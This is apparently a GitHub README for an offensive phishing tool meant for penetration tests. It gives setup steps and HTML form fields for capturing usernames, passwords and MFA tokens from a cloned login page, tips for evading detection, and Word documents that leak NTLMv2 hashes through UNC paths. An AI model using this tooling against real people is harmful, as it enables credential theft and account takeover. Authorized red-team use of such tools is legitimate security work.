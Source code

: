 # Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


This is intended to be a "quick and dirty" solution when Phishing.  For better results, use Evilnginx or another solution.  This is for someone who wants to quickly clone a site, start collecting credentials within minutes, and be notified in real time when there's a catch!  Enjoy!

## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder or ntlmrelayx you can capture NTLMv2 hashes!


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# To Use the API for Capturing Credentials : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/L8yYRMQ.png)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/iLPU2pH.png)


# To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

3) Optionally set up Responder or ntlmrelayx

4) Customize your doc, email it off, and Wait for the Slack Alerts!  

**Bonus points if you use your docs as honeypot bait! :)**



![Payload Generation](https://i.imgur.com/nyrJEz7.png)

                  
            
	    
![Downloading and Openinig Doc](https://i.imgur.com/0wQZJvy.png)

                  
            
	    
![Phishing Doc Slack Alert](https://i.imgur.com/dQahnC5.png)
